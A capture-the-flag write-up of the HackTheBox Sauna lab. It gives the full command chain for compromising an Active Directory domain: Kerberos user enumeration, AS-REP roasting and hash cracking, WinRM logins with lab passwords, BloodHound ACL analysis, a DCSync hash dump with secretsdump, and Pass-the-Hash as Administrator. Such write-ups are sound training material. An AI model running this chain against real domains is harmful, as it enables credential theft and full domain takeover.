








Active Directory – DCSync & Pass‑the‑Hash (HTB Sauna)
Category: Active Directory Enumeration & Abuse
Difficulty: Intermediate
Lab: Sauna (HackTheBox)

🧠 Objective
Enumerate the Active Directory environment, identify valid domain users, obtain credentials through AS‑REP roasting, escalate privileges to svc_loanmgr, analyze ACLs using BloodHound, perform a DCSync attack to dump the Administrator NTLM hash, and authenticate using Pass‑the‑Hash to retrieve the root flag.

🔍 Vulnerability Summary
The domain contains several misconfigurations that allow full compromise:

Publicly accessible About.html page leaks employee names.

Kerberos allows AS‑REP roasting for users without pre‑authentication.

Weak passwords allow lateral movement.

The service account svc_loanmgr has dangerous ACLs (GetChanges, GetChangesAll, DCSync).

These rights allow performing a DCSync attack to dump password hashes.

The Administrator NTLM hash enables Pass‑the‑Hash authentication.

💥 Exploitation
🔧 1. Nmap Scan
nmap -sC -sV -oN sauna_scan 10.129.24.149

Identified services:

Port 80 → IIS web server

Port 88 → Kerberos

Port 389 → LDAP

Port 445 → SMB

Port 5985 → WinRM

🔧 2. Web Enumeration – About.html
Browsing the website reveals an About page listing employees:

James
FSmith
Melanie
Steven
Sophie

These names form the basis of our user list.

🔧 3. Creating a User List
users.txt:

fsmith
melanie
steven
sophie
james

🔧 4. Kerberos User Enumeration
kerbrute userenum --dc 10.129.24.149 -d EGOTISTICAL-BANK.LOCAL users.txt

Valid users discovered:

fsmith
svc_loanmgr

🔧 5. AS‑REP Roasting
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -dc-ip 10.129.24.149

Crack the hash:

hashcat -m 18200 hash.txt rockyou.txt

Credentials obtained:

fsmith : Thestrokes23

🔧 6. WinRM Login as fsmith
evil-winrm -i 10.129.24.149 -u fsmith -p Thestrokes23

🔧 7. Lateral Movement to svc_loanmgr
Enumerate desktop files:

dir C:\Users\fsmith\Desktop

Found a file containing credentials:

svc_loanmgr : Moneymakestheworldgoround!

Login:

evil-winrm -i 10.129.24.149 -u svc_loanmgr -p Moneymakestheworldgoround!

🔧 8. BloodHound Analysis
Run SharpHound:

.\SharpHound.exe -c All

Uploaded the ZIP to BloodHound.

BloodHound reveals:

GetChanges

GetChangesAll

DCSync

for:

svc_loanmgr → EGOTISTICAL-BANK.LOCAL

This confirms the ability to perform a DCSync attack.

🔧 9. DCSync Attack (Impacket)
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.129.24.149

Administrator hash obtained:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH>:::

🔧 10. Pass‑the‑Hash (Administrator Login)
evil-winrm -i 10.129.24.149 -u Administrator -H <NTLM_HASH>

Successful login provides a full Administrator PowerShell session.

🔧 11. Retrieve the root flag
cd C:\Users\Administrator\Desktop
type root.txt

📸 Screenshots

